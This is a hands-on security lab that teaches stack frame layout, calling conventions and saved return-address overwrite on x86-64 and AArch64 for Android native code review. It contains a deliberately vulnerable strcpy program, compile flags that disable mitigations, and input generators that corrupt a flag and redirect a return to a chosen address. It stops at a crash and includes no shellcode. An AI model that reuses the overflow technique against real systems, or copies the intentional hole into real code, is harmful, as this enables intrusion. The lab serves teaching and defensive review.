

# Lab 03 — Stack Frames, Calling Conventions, and Losing Control of the Return Address

> A CTF-style lab. After it you will be able to draw the exact byte layout of a function's stack
> frame, predict from the disassembly where the saved return address sits, and demonstrate — with a
> crash, not a payload — that you control it.

**Chapter:** [01 — Computer Science Basics](../README.md)
**Difficulty:** Intermediate
**Estimated time:** 3 hours
**Prerequisite labs:** [Lab 01](lab-01-binary-hex-endianness.md), [Lab 02](lab-02-processes-memory-maps.md)

> **Warning — scope of this lab, read before starting**
> This lab deliberately stops at the point where you have *demonstrated* control of the saved return
> address by crashing the program at an address of your choosing. It contains **no shellcode, no ROP
> chain, and no working exploit payload**, and none should be added to it. The educational goal is
> to make the stack concrete so that you can read ARM disassembly of Android native libraries, judge
> whether a decompiled function is exploitable, and write a competent finding. Producing a working
> exploit is a different activity requiring a different justification, and it belongs in an
> authorised engagement, not in a learning repository.
> Run everything here on a machine you own, in a throwaway directory, against a program you compiled
> yourself. Never point these techniques at software you do not have written permission to test.

---

## Objective

Chapter 01's earlier labs told you that `[stack]` is a region of memory. This lab tells you what is
*in* it, byte by byte.

Every time a function is called, the machine has to remember three things: where to resume when the
function returns, what the caller's local variables were, and where the new function's own locals
live. The data structure that holds those three things is the *stack frame*, and the discipline that
creates and destroys frames is the *calling convention*. It is the single most important structure in
low-level security work, because the return address — the "where to resume" part — is stored in
ordinary writable memory, directly adjacent to ordinary writable buffers.

By the end you will have:

- Compiled a small vulnerable program with modern mitigations explicitly disabled.
- Printed the real addresses of its locals and derived the frame layout empirically rather than
  assuming it.
- Read the compiler-generated prologue and epilogue in both x86-64 and AArch64 disassembly.
- Drawn the frame to scale on paper.
- Overwritten one local variable through another to change a program decision.
- Overwritten the saved return address and observed the resulting crash at an address you chose.
- Re-enabled the stack canary and observed the difference.
- Explained why the AArch64 story differs from the x86-64 story, and what that means for reading
  Android `.so` files.

> **Definition**
> A **stack frame** (also *activation record*) is the block of stack memory belonging to one active
> function call. It typically contains the function's local variables, saved copies of registers the
> function is required to preserve, the saved frame pointer of its caller, and — on architectures
> that push it — the return address. Frames are allocated on function entry and released on return,
> in strict last-in-first-out order, which is why the region is called a stack.

---

## Prerequisites

| Requirement | Why | Check |
|---|---|---|
| Linux or WSL2 with `gcc` and `gdb` | Compilation and inspection | `gcc --version && gdb --version` |
| `objdump` (from binutils) | Reading disassembly | `objdump --version` |
| `python3` | Generating input of exact lengths | `python3 --version` |
| Optional: `gcc-aarch64-linux-gnu` cross-compiler | Part E, ARM comparison | `aarch64-linux-gnu-gcc --version` |
| Optional: Android NDK | Part E alternative, real Android `.so` | `ls $ANDROID_NDK_HOME` |
| Comfortable with hex arithmetic | Frame offsets are all hex | Lab 01 |

Install the extras on a Debian-family system:

```bash
# host / WSL
sudo apt update
sudo apt install -y build-essential gdb binutils gcc-aarch64-linux-gnu qemu-user
```

---

## Setup

```bash
# host / WSL
mkdir -p ~/android-lab/lab03 && cd ~/android-lab/lab03
```

Create the target program. It is deliberately small, deliberately broken, and prints enough about
itself that you never have to guess.

```c
/* host / WSL — save as vuln.c
 *
 * Deliberately vulnerable teaching program for Lab 03.
 * Compile with mitigations OFF (see the lab text) and run only on your own machine.
 *
 *   gcc -O0 -g -fno-stack-protector -fno-omit-frame-pointer -no-pie -o vuln vuln.c
 *
 * The bug: strcpy() copies until it finds a NUL byte in the source. It has no idea how
 * large the destination is. If argv[1] is longer than the destination array, the copy
 * keeps writing into whatever memory follows the array on the stack.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* A function we will use as a recognisable branch target. It is NOT a shell and grants
 * nothing; it exists so you have a known address to aim at when demonstrating control. */
void marker_function(void)
{
    puts("[marker_function] Execution reached the marker. Nothing else happens here.");
    /* Deliberately returns normally so you can observe the second crash that follows,
     * because the stack is now inconsistent. */
}

/* The vulnerable frame. Everything interesting happens inside this one function. */
int check_name(const char *input)
{
    /* Declaration order is a hint, not a guarantee: the compiler is free to place these
     * anywhere in the frame. That is exactly why we print the real addresses below
     * instead of assuming a layout. */
    int  authorised = 0;
    char name[32];

    printf("---- frame layout of check_name ----\n");
    printf("  &name[0]     = %p\n", (void *)name);
    printf("  &name[31]    = %p\n", (void *)&name[31]);
    printf("  &authorised  = %p\n", (void *)&authorised);
    printf("  &input       = %p   (the parameter slot, if spilled)\n", (void *)&input);
    printf("  distance from &name[0] to &authorised = %ld bytes\n",
           (long)((char *)&authorised - (char *)name));
    printf("------------------------------------\n");

    /* THE BUG. No length check of any kind. */
    strcpy(name, input);

    printf("Hello, %s\n", name);
    printf("authorised is now %d (0x%08x)\n", authorised, (unsigned)authorised);

    if (authorised != 0) {
        printf(">>> ACCESS GRANTED — you changed a variable you were never passed.\n");
    } else {
        printf("    access denied\n");
    }

    return authorised;
}

int main(int argc, char **argv)
{
    printf("marker_function is at %p\n", (void *)marker_function);
    printf("check_name      is at %p\n", (void *)check_name);

    if (argc < 2) {
        fprintf(stderr, "usage: %s <name>\n", argv[0]);
        return 1;
    }

    check_name(argv[1]);

    printf("main is returning normally.\n");
    return 0;
}
```

Compile it with every relevant mitigation switched off, so that the machine behaves the way the
textbook describes:

```bash
# host / WSL
gcc -O0 -g -fno-stack-protector -fno-omit-frame-pointer -no-pie -o vuln vuln.c
```

| Flag | What it disables or forces | Why it matters here |
|---|---|---|
| `-O0` | All optimisation | Locals stay in memory instead of being kept in registers, so the frame is visible |
| `-g` | — (adds debug info) | Lets `gdb` show you source alongside assembly |
| `-fno-stack-protector` | The stack canary | Without this, gcc inserts a guard value that aborts the program before the return happens |
| `-fno-omit-frame-pointer` | Frame-pointer elision | Keeps `rbp`/`x29` as a real frame pointer, which makes the layout readable |
| `-no-pie` | Position independence | Fixes the load address so `marker_function` has the same address every run |

Disable ASLR for the duration so that stack addresses repeat between runs:

```bash
# host / WSL — run the binary with randomisation switched off for this process only
setarch "$(uname -m)" -R ./vuln AAAA
```

If `setarch -R` is unavailable, `gdb` disables ASLR for its inferior by default, which is enough for
Parts C and D.

---

## Steps

### Part A — Establish the ground truth empirically

**A1. Run it normally and record every address it prints.**

```bash
# host / WSL
setarch "$(uname -m)" -R ./vuln Alice
```

Write down, in a table: the address of `marker_function`, the address of `check_name`, `&name[0]`,
`&authorised`, and the computed distance between the buffer and the flag variable.

**A2. Run it twice more with ASLR still disabled.** Confirm every address is identical. Then run it
once *without* `setarch -R` and confirm the stack addresses moved while the function addresses did
not, because you compiled with `-no-pie`. That contrast is the whole of Lab 02's ASLR discussion in
one command.

**A3. Predict the frame.** Given the distance you measured, state — before you touch a debugger — how
many bytes you must write past `name[0]` to reach the first byte of `authorised`.

> **Warning**
> Do not assume `authorised` sits above `name` just because it was declared first. Different gcc and
> clang versions, and different optimisation levels, order locals differently; some compilers
> deliberately place arrays closest to the canary so that an overflow hits the canary before it hits
> other scalars. Your printed distance is the truth for *your* binary. If the distance is negative,
> `authorised` lies below the buffer and cannot be reached by a forward overflow — recompile with a
> different `-O` level or reorder the declarations until it is positive, and confirm that you have just
> discovered a real mitigation technique.

---

### Part B — Read the prologue and epilogue

**B1. Disassemble `check_name`.**

```bash
# host / WSL
objdump -d --no-show-raw-insn -M intel ./vuln | sed -n '/<check_name>:/,/^$/p'
```

**B2. Identify the prologue.** On x86-64 you will see something very close to:

```asm
; host / WSL — x86-64 prologue, Intel syntax
push   rbp                  ; save the caller's frame pointer onto the stack
mov    rbp,rsp              ; this function's frame pointer = current stack pointer
sub    rsp,0x40             ; carve out 0x40 = 64 bytes for locals
mov    QWORD PTR [rbp-0x38],rdi  ; spill the first argument (input) into the frame
```

And the epilogue:

```asm
; host / WSL — x86-64 epilogue
leave                       ; equivalent to: mov rsp,rbp ; pop rbp
ret                         ; pop the 8-byte return address into RIP and jump there
```

**B3. Understand what `call` and `ret` actually do.** These two instructions are the entire mechanism
you are about to abuse.

| Instruction | Effect on x86-64 |
|---|---|
| `call target` | Decrement `RSP` by 8, write the address of the *next* instruction to `[RSP]`, set `RIP = target` |
| `ret` | Read 8 bytes from `[RSP]` into `RIP`, increment `RSP` by 8 |

`ret` performs no validation whatsoever. It reads eight bytes from wherever `RSP` currently points
and jumps there. If those eight bytes were overwritten by a `strcpy`, the CPU jumps to whatever the
attacker wrote, because from the CPU's point of view nothing unusual happened.

**B4. Extract the exact frame offsets.** From the `sub rsp,0x40` and the `[rbp-0x??]` operands in the
body, write down where each local lives relative to `rbp`. Cross-check with `gdb`:

```bash
# host / WSL
gdb -q ./vuln
```

```
(gdb) break check_name
(gdb) run Alice
(gdb) info frame
(gdb) print &name
(gdb) print &authorised
(gdb) print $rbp
(gdb) print $rsp
(gdb) x/16gx $rsp
(gdb) x/2gx $rbp            # [rbp] = saved rbp, [rbp+8] = saved return address
(gdb) info registers rip rsp rbp
```

The command `x/2gx $rbp` is the important one: the first giant word is the caller's saved frame
pointer and the second is the saved return address. Confirm that the second value falls inside
`main` by running `info symbol` on it:

```
(gdb) info symbol *(unsigned long*)($rbp+8)
```

**B5. Draw the frame to scale.** On paper, draw a column of 8-byte cells from `rbp+8` at the top down
to `rsp` at the bottom, label each cell with what your investigation showed it contains, and mark
the direction of stack growth and the direction `strcpy` writes.



The diagram is drawn with high addresses at the top and low addresses at the bottom, matching how
`gdb`'s `x/` output reads when you follow it downward. The essential asymmetry is this: the stack
*grows* toward lower addresses, because `push` and `sub rsp` decrease the stack pointer, but
`strcpy` *writes* toward higher addresses, because C arrays are indexed upward. A buffer therefore
overflows in exactly the direction of the saved frame pointer and the saved return address. That
opposition of directions is not a bug in any one program; it is a structural property of the
architecture, and it is why the stack buffer overflow has been the archetypal memory-safety bug for
over thirty years.

> **Under the Hood**
> The `leave` instruction is a size optimisation for `mov rsp,rbp; pop rbp`, and it explains why
> overwriting the saved `rbp` alone — a *one-byte* overflow past the array, the classic "off-by-one"
> — is already dangerous. After `leave`, the caller's `rsp` is derived from the value you corrupted,
> so the caller's own `ret` reads its return address from a location you influenced. An off-by-one
> is not a harmless off-by-one.

---

### Part C — Overwrite a neighbouring variable

Now use the distance you measured in Part A.

**C1. Write exactly enough bytes to reach `authorised` and set it.**

```bash
# host / WSL — replace 36 with YOUR measured distance
setarch "$(uname -m)" -R ./vuln "$(python3 -c 'print("A"*36 + "B"*4, end="")')"
```

**C2. Interpret what you see.** If the distance was 36 bytes, the 37th through 40th bytes written
land on `authorised`. Four `B` characters are the bytes `0x42 0x42 0x42 0x42`, so `authorised`
becomes `0x42424242` = 1111638594, which is non-zero, and the program prints `ACCESS GRANTED`.

Note carefully what did *not* happen. You did not inject code. You did not redirect execution. You
changed one integer that the program treated as a security decision, using a write that the program
believed was writing a name. This is the entire class of bug, and it is far more common in real
Android native code than shellcode-style exploitation: an overflowed length field, a corrupted
"is_verified" boolean, a clobbered function pointer in a nearby struct.

**C3. Vary the payload and predict the printed value.** Try `"A"*36 + "\x01\x00\x00\x00"` and predict
what `authorised` prints. Then try `"A"*36 + "\xff\xff\xff\xff"` and explain, using two's complement
from Lab 01, why it prints `-1` as a signed int but `0xffffffff` as unsigned. Then try `"A"*35` and
explain why nothing changes.

**C4. Find the exact boundary.** Binary-search the length until you find the shortest input that
changes `authorised`. Confirm it equals your measured distance plus one, remembering that `strcpy`
also writes a terminating NUL byte — which means an input of length exactly *distance* still writes
one byte into `authorised`.

> **Pentester's Note**
> That trailing NUL is the most under-appreciated primitive in memory corruption. A "harmless"
> off-by-one NUL write into an adjacent pointer, length or flag has produced a long line of real
> vulnerabilities. When you review decompiled code and see `strcpy`, `sprintf`, `strcat`, or a
> hand-rolled `while (*src) *dst++ = *src++;`, the question is never only "can I write past the
> end", it is also "what is one byte past the end, and is a zero there interesting?"

---

### Part D — Reach the saved return address

**D1. Determine the distance from `name[0]` to the saved return address.** From Part B you know
`&name[0]` relative to `rbp`, and the return address sits at `rbp+8`. Compute the byte distance and
write it down. For the layout in the diagram above it is `0x30 + 8 = 56` bytes.

**D2. Confirm it in the debugger before you run anything.**

```
(gdb) break check_name
(gdb) run AAAA
(gdb) print (char*)$rbp + 8 - (char*)name
```

**D3. Use a cyclic pattern rather than counting.** Counting by hand is error-prone; the standard
technique is a *De Bruijn* pattern in which every four-byte window is unique, so the bytes that end
up in the instruction pointer tell you the offset directly.

```bash
# host / WSL — generate a 200-byte cyclic pattern with pure Python, no external tools
python3 - <<'PY' > pattern.txt
import string, itertools
alpha = string.ascii_uppercase
pat = "".join(a+b+c+d for a,b,c,d in itertools.product(alpha, string.ascii_lowercase, string.digits, repeat=1))
print(pat[:200], end="")
PY
wc -c pattern.txt
```

**D4. Crash it under the debugger.**

```bash
# host / WSL
gdb -q ./vuln
```

```
(gdb) run "$(cat pattern.txt)"
... Program received signal SIGSEGV, Segmentation fault.
(gdb) info registers rip rsp rbp
(gdb) x/s $rsp
```

Take the bytes that appear in `RIP` (or, if the fault occurred at `ret` itself, the eight bytes at
`$rsp`), find that four-character sequence in your pattern, and its index is the offset from the
start of your input to the return address. Confirm it matches the number you computed in D1. If the
two disagree, trust the debugger and find your arithmetic mistake.

**D5. Demonstrate control by choosing the crash address.** This is the endpoint of the lab. You will
place a *specific, chosen* value into the saved return address and observe the program transferring
control there.

```bash
# host / WSL — OFFSET is your measured distance to the return address.
# 0x4142434445464748 is a recognisable non-address; the program will fault trying to execute it.
OFFSET=56
python3 - "$OFFSET" <<'PY' > input.bin
import sys, struct
off = int(sys.argv[1])
sys.stdout.buffer.write(b"A"*off + struct.pack("<Q", 0x4142434445464748))
PY
gdb -q --args ./vuln "$(cat input.bin)"
```

```
(gdb) run
(gdb) info registers rip
```

You should observe the fault reported at, or the instruction pointer holding, `0x4142434445464748`.
Notice — and this is the Lab 01 payoff — that you wrote the bytes `48 47 46 45 44 43 42 41` into
memory in that order, because `struct.pack("<Q", ...)` is little-endian, and the CPU reassembled them
into the value you intended.

**D6. Aim at a real, benign address.** Replace the nonsense value with the address of
`marker_function` that the program printed at startup, and observe the marker's message appear before
the program crashes on the now-inconsistent stack.

```bash
# host / WSL — substitute the marker address YOUR binary printed
MARKER=0x401186
OFFSET=56
python3 - "$OFFSET" "$MARKER" <<'PY' > input2.bin
import sys, struct
off, marker = int(sys.argv[1]), int(sys.argv[2], 0)
sys.stdout.buffer.write(b"A"*off + struct.pack("<Q", marker))
PY
setarch "$(uname -m)" -R ./vuln "$(cat input2.bin)"
```

**Stop here.** You have demonstrated, end to end, that untrusted input reached the saved return
address and that the CPU honoured it. Everything beyond this point — arranging register state,
chaining gadgets, calling `execve` — is exploit development, is out of scope for this lab, and must
not be added to it.

**D7. Now turn the mitigations back on and watch the difference.**

```bash
# host / WSL — canary enabled (gcc's default), PIE enabled
gcc -O0 -g -fstack-protector-strong -fno-omit-frame-pointer -pie -fPIE -o vuln_hard vuln.c
./vuln_hard "$(cat input.bin)"
```

Expect `*** stack smashing detected ***: terminated` followed by `SIGABRT`. Explain, in writing, the
mechanism: the compiler stores a random value (the *canary*, or *stack guard*) between the locals and
the saved return address on entry, and re-reads and compares it immediately before `ret`. A
contiguous overflow that reaches the return address must pass through the canary, so the comparison
fails and `__stack_chk_fail` aborts the process.

| Mitigation | What it stops | What it does not stop |
|---|---|---|
| Stack canary (`-fstack-protector-strong`) | Contiguous overflows that cross the canary | Non-contiguous writes, e.g. an out-of-bounds index `buf[i]` with attacker-controlled `i` |
| NX / XN (non-executable stack) | Executing bytes written into the stack | Reusing code already present, which is why ROP exists |
| PIE + ASLR | Hardcoding a target address | Attacks that first leak an address |
| RELRO | Overwriting the GOT after startup | Corruption of ordinary function pointers in the heap |
| FORTIFY_SOURCE (`-D_FORTIFY_SOURCE=2`) | `strcpy`/`sprintf` into a *fixed-size* destination the compiler can see | Copies whose destination size is not statically known |
| CFI (`-fsanitize=cfi`, used in AOSP) | Indirect calls to targets of the wrong type | Direct return-address corruption on architectures without a shadow stack |
| PAC (ARMv8.3 pointer authentication) | Returning to an address whose signature does not verify | Data-only attacks like the one in Part C |

Recompile with `-D_FORTIFY_SOURCE=2 -O2` and observe that gcc now emits a compile-time warning or a
runtime abort for the `strcpy`, because with optimisation on it can see the destination is 32 bytes.

---

### Part E — AArch64: why Android is different

Android devices are overwhelmingly AArch64. The stack story there is similar in outline and
importantly different in detail, and the difference changes how you read disassembly.

**E1. Cross-compile the same source.**

```bash
# host / WSL
aarch64-linux-gnu-gcc -O0 -g -fno-stack-protector -fno-omit-frame-pointer -static -o vuln_arm64 vuln.c
aarch64-linux-gnu-objdump -d --no-show-raw-insn ./vuln_arm64 | sed -n '/<check_name>:/,/^$/p'
qemu-aarch64 ./vuln_arm64 Alice
```

If you have the Android NDK instead, build a real Android binary:

```bash
# host / WSL — adjust the NDK path and API level for your installation
$ANDROID_NDK_HOME/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android30-clang \
    -O0 -g -fno-stack-protector -o vuln_android vuln.c
adb push vuln_android /data/local/tmp/ && adb shell chmod 755 /data/local/tmp/vuln_android
adb shell /data/local/tmp/vuln_android Alice
```

**E2. Read the AArch64 prologue.** It looks nothing like x86-64 and you must be able to recognise it
instantly:

```asm
// AArch64 prologue for a non-leaf function
stp     x29, x30, [sp, #-64]!    // store PAIR x29 (FP) and x30 (LR) at sp-64, then set sp = sp-64
mov     x29, sp                  // establish the new frame pointer
str     x0, [sp, #24]            // spill the first argument
```

```asm
// AArch64 epilogue
ldp     x29, x30, [sp], #64      // load the PAIR back, then sp = sp+64 (post-index)
ret                              // branch to the address currently in x30 (LR)
```

**E3. Internalise the central difference.**

| Aspect | x86-64 | AArch64 |
|---|---|---|
| How the return address is saved | `call` pushes it onto the stack automatically | `bl` writes it into register `x30` (the Link Register, `LR`) |
| Where it lives during the call | Always on the stack | In `x30` for a **leaf** function; spilled to the stack only if the function calls something else |
| How return happens | `ret` pops `[rsp]` into `RIP` | `ret` branches to whatever is in `x30` |
| Overflowing a buffer in a leaf function | Can reach the return address | **Cannot** reach the return address — it never touched memory |
| Instruction width | Variable, 1–15 bytes | Fixed, always 4 bytes |
| Argument registers | `rdi, rsi, rdx, rcx, r8, r9` | `x0`–`x7` |
| Return value register | `rax` | `x0` (and `x1` for 128-bit) |
| Callee-saved registers | `rbx, rbp, r12–r15` | `x19`–`x28`, plus `x29`/`x30` by the frame convention |
| Stack alignment requirement | 16 bytes at a `call` | 16 bytes at all times when `sp` is used as a base |

> **Mental Model**
> On x86-64, the return address is a piece of *data on the stack* from the instant of the call. On
> AArch64 it starts life as a *value in a register* and only becomes data on the stack when the
> function is a non-leaf and must save `x30` to make room for its own calls. That single design
> choice is why a great many trivially exploitable x86 stack overflows have no equivalent on ARM: if
> the vulnerable function is a leaf, there is nothing to overwrite. It is also why, when you audit
> ARM code, the very first question about any candidate function is "does it call anything?"

**E4. Confirm the leaf/non-leaf distinction yourself.** Add this to a copy of the source, recompile
for AArch64, and compare the two disassemblies:

```c
/* host / WSL — a LEAF function: calls nothing, so x30 is never spilled */
int leaf_sum(const char *s)
{
    char buf[16];
    int total = 0;
    for (int i = 0; s[i]; i++) { buf[i & 15] = s[i]; total += s[i]; }
    return total;
}
```

Look for `stp x29, x30, [sp, #-N]!` at the top. Its absence is the definition of a leaf function.

**E5. Note pointer authentication.** ARMv8.3 introduced Pointer Authentication Codes: `paciasp` at
function entry signs `x30` using a secret key and the current `sp` as context, and `autiasp` at exit
verifies the signature before `ret` uses it. If the value was tampered with, the top bits fail
verification and the subsequent branch faults. Modern Android system binaries on capable hardware are
built with PAC, and you will see `paciasp` / `autiasp` (or the combined `retaa`) in disassembly of
such libraries. When you see them, plain return-address overwrite is off the table; data-only attacks
like Part C are not.

**E6. Read a real Android library.** Pull one from a device and find a prologue in it:

```bash
# host — pull a real AArch64 shared object off the device
adb pull /system/lib64/libc.so .
aarch64-linux-gnu-objdump -d libc.so | grep -m 20 -B2 -A6 'stp\s*x29, x30'
```

Every one of those `stp x29, x30, [sp, #-N]!` instructions marks the entry to a non-leaf function,
and the immediate `N` is that function's total frame size. You can now read frame sizes straight out
of Android system libraries.

---

## Hints

<details>
<summary>Hint 1 — My distance from `name` to `authorised` is negative</summary>

Your compiler placed the scalar below the array, which a forward overflow cannot reach. Try
`-O1`, swap the declaration order, or add a second dummy array. Note in your write-up that layout is
a compiler decision, not a language guarantee, and that some hardening modes deliberately sort locals
so that arrays sit closest to the canary.
</details>

<details>
<summary>Hint 2 — The program does not crash even with 200 bytes</summary>

Check that you actually disabled the stack protector; `*** stack smashing detected ***` means you did
not. Also confirm your shell is passing the long string as a single argument — quote it. And confirm
the binary is the one you just rebuilt, not a stale `./vuln`.
</details>

<details>
<summary>Hint 3 — `RIP` is not my pattern bytes; the crash is inside `strcpy`</summary>

You overflowed so far that the copy ran off the end of the mapped stack region before the function
could return. Reduce the length. The interesting crash is the one at `ret`, not the one during the
copy.
</details>

<details>
<summary>Hint 4 — My chosen address has a NUL byte in it and gets truncated</summary>

That is a genuine property of `strcpy`, not a mistake on your part: the copy stops at the first zero
byte, so an address containing `0x00` cannot be delivered this way. Choose an address without NUL
bytes for the demonstration, and note in your write-up that "the target address contains a NUL" is a
routine reason real bugs are hard to exploit through string functions.
</details>

<details>
<summary>Hint 5 — gdb shows `??` instead of a symbol after the crash</summary>

That is expected and correct: the address you supplied is not the start of any function, so there is
no symbol. Use `info registers rip` and compare the raw value with what you wrote.
</details>

<details>
<summary>Hint 6 — The AArch64 build shows no `stp x29, x30`</summary>

The function you are looking at is a leaf. Find a function that calls `printf` — `check_name` does —
and look at that one instead.
</details>

---

## Solution

### Representative measurements

Compiled with gcc 11 on x86-64 Linux with the flags above, one run produced:

| Item | Value |
|---|---|
| `marker_function` | `0x401186` |
| `&name[0]` | `0x7ffffffede30` |
| `&authorised` | `0x7ffffffede54` |
| Distance `name[0]` → `authorised` | 36 bytes |
| `rbp` | `0x7ffffffede60` |
| Distance `name[0]` → saved `rbp` | 48 bytes |
| Distance `name[0]` → saved return address | 56 bytes |
| Frame size from `sub rsp,0x40` | 64 bytes |

Your numbers will differ; the *relationships* will not. The saved return address is always eight
bytes above the saved frame pointer on x86-64, and the saved frame pointer is always at `rbp`.

### The annotated frame, filled in

```
higher addresses
  0x7ffffffede68   [ return address into main       ]  <- rbp+8   ← 56 bytes past name[0]
  0x7ffffffede60   [ saved rbp of main              ]  <- rbp     ← 48 bytes past name[0]
  0x7ffffffede58   [ padding / alignment            ]
  0x7ffffffede54   [ int authorised                 ]             ← 36 bytes past name[0]
  0x7ffffffede50   [ padding                        ]
  0x7ffffffede30   [ char name[32]                  ]  <- name[0] ← strcpy writes upward from here
  0x7ffffffede28   [ spilled parameter 'input'      ]
  0x7ffffffede20   [ rsp                            ]
lower addresses
```

### What each experiment demonstrated

| Input | Bytes written past `name` | Result | Lesson |
|---|---|---|---|
| `A`×35 | 35 + NUL = 36 | Nothing changes | The NUL lands on the last byte of padding |
| `A`×36 | 36 + NUL = 37 | `authorised` becomes `0x00000000`… or stays 0 | The NUL zeroes the low byte of a value that was already zero |
| `A`×36 + `BBBB` | 41 | `authorised` = `0x42424242`, ACCESS GRANTED | Data-only corruption of a security decision |
| `A`×36 + `\xff\xff\xff\xff` | 41 | `authorised` prints `-1` signed, `0xffffffff` unsigned | Two's complement, exactly as in Lab 01 |
| `A`×56 + packed address | 64 | `RIP` = the chosen address | Control-flow corruption demonstrated |
| Same input, `-fstack-protector-strong` build | 64 | `*** stack smashing detected ***`, `SIGABRT` | The canary works |

### Why the crash proves control

When `gdb` reports the faulting instruction pointer as exactly the eight bytes you supplied, three
things are established simultaneously and none of them require an exploit. First, your input reached
the saved return address, so the write primitive has sufficient reach. Second, the value was taken
verbatim, so you have byte-granular control of the destination rather than partial influence. Third,
the CPU executed the transfer, so the corruption is on the control-flow path and not merely in dead
memory. Those three facts are precisely the content of a competent vulnerability report; the
remaining work of building a payload changes the severity narrative but not the technical finding.

### The AArch64 disassembly, annotated

```asm
// AArch64, check_name, gcc -O0 -fno-stack-protector
0000000000400a1c <check_name>:
  400a1c:  stp  x29, x30, [sp, #-80]!   // allocate 80 bytes and save FP+LR at the TOP of the frame
  400a20:  mov  x29, sp                 // frame pointer = sp
  400a24:  str  x0, [sp, #24]           // spill 'input'
  400a28:  str  wzr, [sp, #76]          // authorised = 0   (wzr is the 32-bit zero register)
  ...
  400a90:  add  x0, sp, #0x30           // x0 = &name[0]
  400a94:  ldr  x1, [sp, #24]           // x1 = input
  400a98:  bl   400780 <strcpy>         // strcpy(name, input)
  ...
  400b10:  ldp  x29, x30, [sp], #80     // restore FP and LR from the stack, then sp += 80
  400b14:  ret                          // branch to x30
```

Two observations decide everything. First, `stp x29, x30, [sp, #-80]!` stores the pair at the *lowest*
addresses of the new frame on this compiler's layout, while `name` sits at `sp+0x30` — so on this
build a forward overflow from `name` runs toward `authorised` at `sp+76` and *away* from the saved
`x30`. Whether the saved link register is reachable therefore depends on the specific frame layout
the compiler chose, and you must read it rather than assume it. Second, `ret` uses `x30`, which was
loaded from the stack by `ldp` — so on a non-leaf function the saved link register is stack data and
is in principle corruptible, exactly as on x86-64.

Verify your own build's layout with:

```
(gdb) break *0x400b10
(gdb) x/2gx $sp
(gdb) print (char*)$sp + <offset of saved x30> - (char*)name
```

---

## Success Criteria

| # | Criterion | Proof |
|---|---|---|
| 1 | You compiled `vuln.c` with the stack protector and PIE disabled | The exact `gcc` line |
| 2 | You measured the real distance from `name[0]` to `authorised` for *your* binary | Program output |
| 3 | You identified the prologue and epilogue in x86-64 disassembly and explained each instruction | Annotated listing |
| 4 | You located the saved frame pointer and saved return address with `x/2gx $rbp` and confirmed the latter points into `main` | `info symbol` output |
| 5 | You drew the frame to scale with every cell labelled | Your diagram |
| 6 | You changed `authorised` through the buffer and got ACCESS GRANTED | Program output |
| 7 | You explained the effect of `strcpy`'s trailing NUL byte | Written sentence |
| 8 | You found the offset to the return address using a cyclic pattern and it matched your calculation | Two numbers that agree |
| 9 | You crashed the program at an address you chose, and `RIP` held exactly that value | `info registers rip` |
| 10 | You rebuilt with `-fstack-protector-strong` and got `stack smashing detected` | Program output |
| 11 | You identified `stp x29, x30` / `ldp x29, x30` in AArch64 disassembly and explained the LR | Annotated listing |
| 12 | You explained why a leaf function on AArch64 has no return address on the stack | Written paragraph |
| 13 | You found at least ten non-leaf prologues in a real Android `libc.so` | `objdump` output |
| 14 | You did **not** write shellcode or a working exploit | Your directory contains none |

---

## Going Further

1. **Break the frame pointer only.** Craft an input that overwrites exactly the low byte of the saved
   `rbp` and nothing else. Observe that `check_name` returns normally but `main` then misbehaves.
   Write one paragraph on why an off-by-one is a real vulnerability class.

2. **Recursion and stack exhaustion.** Build [`../examples/stack_frames.c`](../examples/stack_frames.c)
   and run its recursive function with a large depth. Note the crash address, then compare it with
   the low end of the `[stack]` region from `/proc/<pid>/maps` in Lab 02. You have just found the
   guard page.

3. **Compare compilers.** Build `vuln.c` with `clang` and with `gcc`, at `-O0`, `-O1` and `-O2`.
   Tabulate the frame layouts.at `-O2` `authorised` may vanish entirely into a register
   and the bug in Part C becomes unreachable, which is a good illustration of why "it does not
   reproduce in release builds" is not evidence of correctness.

4. **Fix the bug properly.** Rewrite `check_name` three ways: with `strncpy` plus explicit
   termination, with `snprintf`, and with an explicit length check before the copy. Explain why
   `strncpy` alone is still a trap (it does not NUL-terminate when the source fills the buffer) and
   why `strlcpy`/`strscpy` exist. Compile each with `-D_FORTIFY_SOURCE=2 -O2 -Wall -Wextra` and
   confirm the warnings disappear.

5. **Find the pattern in decompiled Android code.** Open any `.so` from an APK in Ghidra, search for
   calls to `strcpy`, `sprintf`, `strcat`, `memcpy` and `gets`, and for each one determine whether
   the destination size is statically bounded and whether the source is attacker-influenced. Record
   your reasoning for three functions. This is the actual day-to-day work of native code review; see
   [57 — Ghidra](../../57-Ghidra/README.md) and
   [70 — Vulnerability Research](../../70-VulnerabilityResearch/README.md).

6. **Observe a real crash on a device.** Run a deliberately crashing binary on an Android device and
   read the tombstone:

   ```bash
   # adb shell
   ls /data/tombstones/
   cat /data/tombstones/tombstone_00
   ```

   Identify the fault address, the register dump, the backtrace, and the memory-near-register
   sections. A tombstone is the whole of this lab, printed automatically, and reading them fluently
   is a core skill.

7. **Trace the JNI boundary.** Write a tiny JNI function that takes a Java `String`, converts it with
   `GetStringUTFChars`, and copies it into a fixed native buffer. That single pattern — trusted Java
   string, untrusted length, fixed native buffer — is the most common route by which Android app
   input reaches a native stack overflow. See [16 — JNI](../../16-JNI/README.md).

---

## Why this matters for Android security

